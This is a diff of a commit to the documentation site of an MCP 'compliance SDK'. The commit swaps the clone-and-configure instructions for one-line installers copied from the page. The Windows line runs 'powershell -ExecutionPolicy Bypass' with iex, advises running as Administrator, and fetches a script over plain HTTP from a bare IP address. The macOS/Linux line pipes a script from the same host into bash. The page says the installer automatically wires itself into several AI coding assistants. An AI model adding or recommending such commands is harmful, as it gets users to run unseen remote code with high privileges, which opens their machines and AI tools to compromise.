

Before and after one commit to TommyP949/drp-compliance-sdk, a website: page docs/index.html in a window 1280 px wide. Shown: the part 1488-2379 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
setup: add one-command Windows installer

```diff
--- a/docs/index.html
+++ b/docs/index.html
@@ -55,8 +55,12 @@ body{font-family:'Inter',system-ui,sans-serif;background:var(--bg);color:var(--t
 .btn-secondary:hover{color:var(--text);background:var(--bg3)}
 
 /* Install strip */
-.install-strip{background:var(--code-bg);border-radius:10px;max-width:700px;margin:2.5rem auto 0;padding:1rem 1.25rem;display:flex;align-items:center;gap:0.75rem;text-align:left}
-.install-strip code{font-family:'JetBrains Mono',monospace;font-size:0.8375rem;color:#93c5fd;flex:1}
+.install-strip{background:var(--code-bg);border-radius:10px;max-width:760px;margin:2.5rem auto 0;overflow:hidden;text-align:left}
+.install-tabs{display:flex;border-bottom:1px solid #1e293b}
+.install-tab{padding:0.5rem 1rem;font-size:0.75rem;font-weight:600;color:#64748b;cursor:pointer;border:none;background:none;font-family:inherit;letter-spacing:0.04em;transition:color .15s}
+.install-tab.active{color:#93c5fd;border-bottom:2px solid #3b82f6}
+.install-body{padding:1rem 1.25rem;display:flex;align-items:center;gap:0.75rem}
+.install-body code{font-family:'JetBrains Mono',monospace;font-size:0.78rem;color:#93c5fd;flex:1;word-break:break-all}
 .copy-btn{flex-shrink:0;background:rgba(255,255,255,0.08);border:1px solid rgba(255,255,255,0.12);color:var(--text3);font-size:0.7rem;font-weight:600;padding:0.25rem 0.6rem;border-radius:4px;cursor:pointer;font-family:inherit;letter-spacing:0.04em;transition:all .15s}
 .copy-btn:hover{background:rgba(255,255,255,0.15);color:#fff}
 .copy-btn.copied{color:#4ade80;border-color:rgba(74,222,128,0.35)}
@@ -151,8 +155,14 @@ footer .footer-links{display:flex;justify-content:center;gap:1.5rem;margin-botto
     <a class="btn btn-secondary" href="#api">API Reference</a>
   </div>
   <div class="install-strip">
-    <code id="install-cmd">git clone https://github.com/TommyP949/drp-compliance-sdk</code>
-    <button class="copy-btn" onclick="copyInstall()">COPY</button>
+    <div class="install-tabs">
+      <button class="install-tab active" onclick="setOs('win',this)">Windows</button>
+      <button class="install-tab" onclick="setOs('mac',this)">macOS / Linux</button>
+    </div>
+    <div class="install-body">
+      <code id="install-cmd">powershell -ExecutionPolicy Bypass -Command "iex (iwr -useb http://68.183.248.32/agent-demo/install.ps1)"</code>
+      <button class="copy-btn" onclick="copyInstall()">COPY</button>
+    </div>
   </div>
 </div>
 
@@ -200,86 +210,42 @@ footer .footer-links{display:flex;justify-content:center;gap:1.5rem;margin-botto
 
 <div class="section" id="quickstart">
   <div class="section-label">Quick Start</div>
-  <div class="section-title">Up and running in two minutes</div>
-  <div class="section-sub">Clone the repository and register it with your AI assistant. No package manager, no build step.</div>
+  <div class="section-title">One command. Auto-configures everything.</div>
+  <div class="section-sub">The installer detects Claude Desktop, Claude Code, Cursor, and Windsurf — and wires them all up automatically. No manual JSON editing.</div>
 
-  <div class="qs-grid">
+  <div class="qs-grid" style="margin-top:2rem">
     <div class="qs-card">
       <div class="qs-card-head">
         <div class="dot" style="background:#ff5f57"></div>
         <div class="dot" style="background:#febc2e"></div>
         <div class="dot" style="background:#28c840"></div>
-        <span class="qs-card-title">Claude Code — ~/.claude/settings.json</span>
+        <span class="qs-card-title">Windows — PowerShell (no Node.js required)</span>
       </div>
-      <pre>{
-  <span class="k">"mcpServers"</span>: {
-    <span class="k">"drp-compliance"</span>: {
-      <span class="k">"command"</span>: <span class="s">"node"</span>,
-      <span class="k">"args"</span>: [
-        <span class="s">"/path/to/drp-compliance-sdk/server.js"</span>
-      ]
-    }
-  }
-}</pre>
+      <pre><span class="c"># Run as Administrator for best results</span>
+powershell -ExecutionPolicy Bypass -Command <span class="s">"iex (iwr -useb http://68.183.248.32/agent-demo/install.ps1)"</span></pre>
     </div>
     <div class="qs-card">
       <div class="qs-card-head">
         <div class="dot" style="background:#ff5f57"></div>
         <div class="dot" style="background:#febc2e"></div>
         <div class="dot" style="background:#28c840"></div>
-        <span class="qs-card-title">Claude Desktop — claude_desktop_config.json</span>
+        <span class="qs-card-title">macOS / Linux — bash</span>
       </div>
-      <pre>{
-  <span class="k">"mcpServers"</span>: {
-    <span class="k">"drp-compliance"</span>: {
-      <span class="k">"command"</span>: <span class="s">"node"</span>,
-      <span class="k">"args"</span>: [
-        <span class="s">"/path/to/drp-compliance-sdk/server.js"</span>
-      ]
-    }
-  }
-}</pre>
-    </div>
-    <div class="qs-card">
-      <div class="qs-card-head">
-        <div class="dot" style="background:#ff5f57"></div>
-        <div class="dot" style="background:#febc2e"></div>
-        <div class="dot" style="background:#28c840"></div>
-        <span class="qs-card-title">Cursor — .cursor/mcp.json</span>
-      </div>
-      <pre>{
-  <span class="k">"mcpServers"</span>: {
-    <span class="k">"drp-compliance"</span>: {
-      <span class="k">"command"</span>: <span class="s">"node"</span>,
-      <span class="k">"args"</span>: [
-        <span class="s">"/path/to/drp-compliance-sdk/server.js"</span>
-      ]
-    }
-  }
-}</pre>
-    </div>
-    <div class="qs-card">
-      <div class="qs-card-head">
-        <div class="dot" style="background:#ff5f57"></div>
-        <div class="dot" style="background:#febc2e"></div>
-        <div class="dot" style="background:#28c840"></div>
-        <span class="qs-card-title">Windsurf — mcp_config.json</span>
-      </div>
-      <pre>{
-  <span class="k">"mcpServers"</span>: {
-    <span class="k">"drp-compliance"</span>: {
-      <span class="k">"command"</span>: <span class="s">"node"</span>,
-      <span class="k">"args"</span>: [
-        <span class="s">"/path/to/drp-compliance-sdk/server.js"</span>
-      ]
-    }
-  }
-}</pre>
+      <pre>curl -fsSL http://68.183.248.32/agent-demo/install.sh | bash</pre>
     </div>
   </div>
 
-  <div style="margin-top:2rem;padding:1rem 1.25rem;background:var(--green-bg);border:1px solid var(--green-border);border-radius:8px;font-size:0.8375rem;color:#166534;line-height:1.65">
-    <strong>Tip:</strong> After registering, restart your AI assistant. Your agent will automatically discover the <code style="font-size:0.85em;background:rgba(22,101,52,0.1);padding:0.1em 0.35em;border-radius:3px">verify_document</code> tool. Ask it to "verify this Q2 report against DRP-2026" and it will invoke the SDK automatically.
+  <div style="margin-top:1.5rem;padding:1rem 1.25rem;background:var(--green-bg);border:1px solid var(--green-border);border-radius:8px;font-size:0.8375rem;color:#166534;line-height:1.65">
+    <strong>After install:</strong> Fully quit and reopen your AI assistant. Your agent will automatically discover the <code style="font-size:0.85em;background:rgba(22,101,52,0.1);padding:0.1em 0.35em;border-radius:3px">verify_document</code> tool. Ask it to "verify this Q2 report against DRP-2026" and it will invoke the SDK automatically.
+  </div>
+
+  <div style="margin-top:2rem">
+    <div style="font-size:0.8375rem;font-weight:600;color:var(--text2);margin-bottom:0.75rem">Prefer manual setup?</div>
+    <div style="font-size:0.8125rem;color:var(--text2);line-height:1.7">
+      Clone the repo and add the server to your client's <code style="font-size:0.85em;background:var(--bg3);padding:0.1em 0.35em;border-radius:3px">mcpServers</code> config block:<br>
+      <strong>Windows:</strong> <code style="font-size:0.85em;background:var(--bg3);padding:0.1em 0.35em;border-radius:3px">command: powershell, args: ["-ExecutionPolicy","Bypass","-File","path\to\server.ps1"]</code><br>
+      <strong>macOS/Linux:</strong> <code style="font-size:0.85em;background:var(--bg3);padding:0.1em 0.35em;border-radius:3px">command: node, args: ["path/to/server.js"]</code>
+    </div>
   </div>
 </div>
 
@@ -389,6 +355,15 @@ footer .footer-links{display:flex;justify-content:center;gap:1.5rem;margin-botto
 </footer>
 
 <script>
+var CMDS = {
+  win: 'powershell -ExecutionPolicy Bypass -Command "iex (iwr -useb http://68.183.248.32/agent-demo/install.ps1)"',
+  mac: 'curl -fsSL http://68.183.248.32/agent-demo/install.sh | bash'
+};
+function setOs(os, btn) {
+  document.getElementById('install-cmd').textContent = CMDS[os];
+  document.querySelectorAll('.install-tab').forEach(function(t){ t.classList.remove('active'); });
+  btn.classList.add('active');
+}
 function copyInstall() {
   var cmd = document.getElementById('install-cmd').textContent;
   navigator.clipboard.writeText(cmd).then(function() {
```
Also changed, not shown: README.md, 4 other files.
